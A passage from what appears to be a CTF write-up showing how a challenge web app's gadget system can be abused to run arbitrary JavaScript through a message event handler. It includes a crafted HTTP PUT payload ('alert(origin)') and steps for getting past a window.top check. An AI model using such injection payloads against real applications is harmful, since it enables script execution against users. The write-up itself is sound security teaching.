 Oh! It exported object `functions` with 3 defined functions. Most importantly, function `sendToParent` is in there!

But wait, can we do something like this?

```javascript
new sendToParent(data);
```

Let's test this theory!

```javascript
function foo(bar) { console.log(bar); }
new foo('bar');
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CUHK-CTF-2025/images/Pasted%20image%2020251004171538.png)

It works!

Therefore, we can call function `sendToParent` by setting key `type`'s value to be `functions.sendToParent`! Since we can control the gadget's `data`, we should be able to execute arbitrary JavaScript through the `message` event handler:

```http
PUT /board/3d75f548-b331-46ea-8687-e1a36b846d40 HTTP/1.1
Host: localhost:25054
Content-Type: application/json
Content-Length: 131

{"content":{"anything":{"type":"functions.sendToParent","executeFunction":true,"functionString":"alert(origin)","arguments":[""]}}}
```

Now, the `message` event handler's origin check will pass, because the event origin is the current window origin.

Well, not quite yet. We still have to overcome this check:

```javascript
function sendToParent(payload: any) {
  if (window.top === window) return;
  [...]
}
```

To make the current window is NOT the same as the top one, we can try to find a way to embed the window that calls function `sendToParent`.

Luckily, there's a gadget call `board`:

`frontend/app/utils.ts`:

```javascript
import {
  BoardGadget,
  ButtonGadget,
  ImageGadget,
  InputGadget,
  TextGadget,
} from "./classes/Gadgets";
[...]
export const gadget = {
  paragraph: TextGadget,
  text_input: InputGadget,
  button: ButtonGadget,
  image: ImageGadget,
  board: BoardGadget,
};
```
